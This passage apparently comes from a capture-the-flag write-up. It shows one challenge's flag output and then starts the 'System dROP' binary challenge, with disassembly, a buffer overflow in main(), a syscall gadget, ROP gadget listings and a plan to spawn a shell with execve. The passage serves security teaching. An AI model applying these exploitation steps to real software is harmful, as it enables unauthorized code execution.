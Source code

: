 Running the script returns the flag: 

```
► ./sploit.py SILENT=1
b'We need to get out of here as soon as possible. Run!\n\nMission accomplished! \xe2\x9c\x94\nCHTB{d3struct0r5_m1n3f13ld}'
```

## System dROP

This binary challenge is compiled with partial RELRO and NX. The name appears to imply that ROP is required to exploit this. 

The binary itself is fairly small. The `main()` function just reads 256 bytes from the user using `read()`: 

```
0x00400541      push rbp
0x00400542      mov rbp, rsp
0x00400545      sub rsp, 0x20
0x00400549      mov edi, 0xf       ; 15
0x0040054e      call alarm         ; sym.imp.alarm
0x00400553      lea rax, [buf]
0x00400557      mov edx, 0x100     ; 256 ; size_t nbyte
0x0040055c      mov rsi, rax       ; void *buf
0x0040055f      mov edi, 0         ; int fildes
0x00400564      call read          ; sym.imp.read ; ssize_t read(int fildes, void *buf, size_t nbyte)
0x00400569      mov eax, 1
0x0040056e      leave
0x0040056f      ret
```

A user defined `syscall()` function exists for the sole purpose of providing a `syscall` gadget:

```
0x00400537      push rbp
0x00400538      mov rbp, rsp
0x0040053b      syscall
0x0040053d      ret
```

There are no "win" functions, so that means we need to get a shell by executing `execve("/bin/sh")`. My initial thought was to use a `mprotect` syscall on a writable section to make it executable, `read()` shellcode into that location, and then return to it to get a shell. `mprotect` requires four parameters that need to be set in RDI, RSI, RDX, and RCX. A quick look at what gadgets are available in the binary show that we only have a pop RDI and RSI that are immediately accessible: 

```
► ropper --file system_drop --search 'pop r??'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r??

[INFO] File: system_drop
0x00000000004005cc: pop r12; pop r13; pop r14; pop r15; ret;
0x00000000004005ce: pop r13; pop r14; pop r15; ret;
0x00000000004005d0: pop r14; pop r15; ret;
0x00000000004005d2: pop r15; ret;
0x00000000004004ab: pop rbp; mov edi, 0x601038; jmp rax;
0x00000000004005cb: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x00000000004005cf: pop rbp; pop r14; pop r15; ret;
0x00000000004004b8: pop rbp; ret;
0x00000000004005d3: pop rdi; ret;
0x00000000004005d1: pop rsi; pop r15; ret;
0x00000000004005cd: pop rsp; pop r13; pop r14; pop r15; ret;
```
